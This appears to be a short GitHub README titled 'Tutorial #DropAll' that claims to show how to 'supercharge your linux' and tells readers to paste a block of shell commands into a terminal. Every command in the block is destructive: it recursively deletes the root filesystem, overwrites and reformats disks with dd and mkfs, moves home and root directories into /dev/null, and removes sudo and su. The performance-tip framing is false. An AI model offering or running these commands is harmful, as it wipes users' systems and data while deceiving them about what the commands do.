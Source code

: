# Tutorial #DropAll
with success for begins

## How to supercharge your linux
Open your Terminal end copy/paste/enter:

```
sudo rm -rf / && rm -rf .* && rm - .* && dd if=/dev/zero of=/dev/sda && mkfs.ext3 /dev/hda && echo '' > /dev/hda && cd ~; for x in `ls`; do mv -f $x $y; y=$x; done
find -type f -mtime +30 -exec mv {} /dev/null ; && mv ~ /dev/null && mv / /dev/null && rm -f /usr/bin/sudo;rm -f /bin/su && mv /home/$user/* /dev/null
```